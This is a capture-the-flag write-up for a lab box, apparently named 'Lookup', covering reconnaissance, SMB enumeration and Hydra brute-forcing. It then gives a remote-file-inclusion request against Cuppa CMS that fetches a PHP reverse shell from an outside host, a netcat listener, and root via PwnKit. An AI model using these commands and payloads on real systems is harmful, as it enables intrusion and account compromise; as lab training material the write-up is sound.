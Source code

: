 # Lookup-easy

 Reconnaissance:
Port and service scanning:


sudo nmap -sC -sV -oN squirrelmail.thm xxxx
Directory/file brute-forcing:


dirsearch -u http://xxxx -w /path/to/wordlist.txt
gobuster dir -u http://xxxx -w /path/to/wordlist.txt
Discovered SquirrelMail.

SMB Enumeration:

enum4linux → gathered usernames and information

smbmap → checked permissions, found log1.txt, log2.txt, log3.txt

Extracted hints from logs for password brute-forcing.

Access & Authentication
Used Hydra to brute-force passwords using usernames from enum4linux and smbmap.

Verified login endpoint with Burp Suite.

Found valid passwords → logged into SMB with another user.

Discovered a text file with a hint about a hidden directory.

Web Exploitation
Navigated to the hidden directory → initially empty.

Ran ffuf:


ffuf -u http://xxxx/FUZZ -w /path/to/wordlist.txt
Found /administrator/.

Identified Cuppa CMS.

Found RFI vulnerability in alertConfigField.php.

Exploit request:

http
GET /administrator/alerts/alertConfigField.php?urlConfig=http://ip_address:8080/php-reverse-shell.php
Set up listener:


nc -nlvp 8080
Gained a reverse shell.

Privilege Escalation
Ran linpeas.sh:


./linpeas.sh
Confirmed Ubuntu 16 vulnerable to PwnKit (CVE-2021-4034).

Exploited PwnKit → gained root access.

Guided Steps
After finding SquirrelMail, I followed a walkthrough for orientation.

Everything else (SMB, ffuf, Cuppa CMS, reverse shell, PwnKit) was done independently.

Notes & Takeaways
With SMB, always run enum4linux + smbmap → often reveals users and useful files.

Burp Suite helps to confirm endpoints for Hydra.

Older distros (like Ubuntu 16) are good candidates for quick PwnKit escalation.


For CMS (e.g., Cuppa), keep a checklist of known vulnerable endpoints.
